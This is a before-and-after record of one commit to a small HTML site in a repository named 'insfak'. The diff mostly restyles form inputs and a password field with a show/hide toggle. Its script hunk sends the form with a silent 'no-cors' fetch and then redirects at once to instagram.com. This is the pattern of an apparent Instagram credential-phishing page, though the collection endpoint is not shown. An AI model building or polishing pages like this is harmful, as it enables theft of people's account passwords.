

Before and after one commit to huusaiin/insfak, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 230-530 px from the top of the page, without its empty margins (355-995 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -25,8 +25,8 @@
 
     input {
       display: block;
-      width: 100%;
-      margin: 10px 0;
+      width: calc(100% - 20px);
+      margin: 10px auto;
       padding: 10px;
       border: 1px solid #ccc;
       border-radius: 5px;
@@ -36,11 +36,13 @@
     .password-container {
       position: relative;
       width: 100%;
+      display: flex;
+      align-items: center;
     }
 
     .password-container input {
       width: 100%;
-      padding-right: 60px;
+      padding-right: 50px;
     }
 
     .toggle-password {
@@ -65,6 +67,7 @@
       border-radius: 5px;
       cursor: pointer;
       font-size: 16px;
+      margin-top: 10px;
     }
 
     button:hover {
@@ -109,7 +112,6 @@
       body: form,
       mode: "no-cors"
     }).then(() => {
-      // Redirecciona inmediatamente sin demora
       window.location.href = "https://www.instagram.com";
     });
     this.reset();
```
